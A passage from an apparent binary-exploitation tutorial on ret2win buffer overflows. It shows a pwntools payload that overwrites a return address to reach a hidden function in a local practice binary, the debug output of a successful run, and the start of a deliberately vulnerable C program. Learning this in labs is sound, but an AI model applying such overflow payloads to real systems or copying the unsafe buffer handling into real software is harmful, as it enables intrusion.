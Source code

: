 ```python
padding = 24

payload = flat(
    b'A' * 24,
    elf.functions.watchdogs  # 0x00401146
)

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(b':', payload)

# Receive the flag
io.interactive()
```
Let's run the code and see the output
```shell
~/Documents/coding/c$ python3 watchdogs.py
[+] Starting local process './watchdogs': pid 48776
[DEBUG] Received 0x22 bytes:
    b'Enter your favourite video game :\n'
[DEBUG] Sent 0x21 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  46 11 40 00  00 00 00 00  │AAAA│AAAA│F·@·│····│
    00000020  0a                                                  │·│
    00000021
[*] Switching to interactive mode

[DEBUG] Received 0x53 bytes:
    00000000  59 6f 75 72  20 66 61 76  6f 75 72 69  74 65 20 76  │Your│ fav│ouri│te v│
    00000010  69 64 65 6f  20 67 61 6d  65 73 20 69  73 20 2c 20  │ideo│ gam│es i│s , │
    00000020  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000030  41 41 41 41  41 41 41 41  46 11 40 0a  4c 65 74 27  │AAAA│AAAA│F·@·│Let'│
    00000040  73 20 70 6c  61 79 20 57  34 74 63 68  64 30 67 35  │s pl│ay W│4tch│d0g5│
    00000050  3a 4f 0a                                            │:O·│
    00000053
Your favourite video games is , AAAAAAAAAAAAAAAAAAAAAAAAF\x11@
Let's play W4tchd0g5
[*] Got EOF while reading in interactive
$ 
[*] Process './watchdogs' stopped with exit code -11 (SIGSEGV) (pid 48776)
```
We were able to execute our unreachable function W4TCHD0G5

## ret2win with params

```c
#include <stdio.h>

void hacked(long first, long second){
    if (first == 0xdeadbeefdeadbeef && second == 0xc0debabec0debabe){
        printf("This function is TOP SECRET! How did you get in here?! :O\n");
    }else{
        printf("Unauthorised access to secret function detected, authorities have been alerted!!\n");
    }
}

void register_name(){
    char buffer[16];

    printf("Name:\n");
```
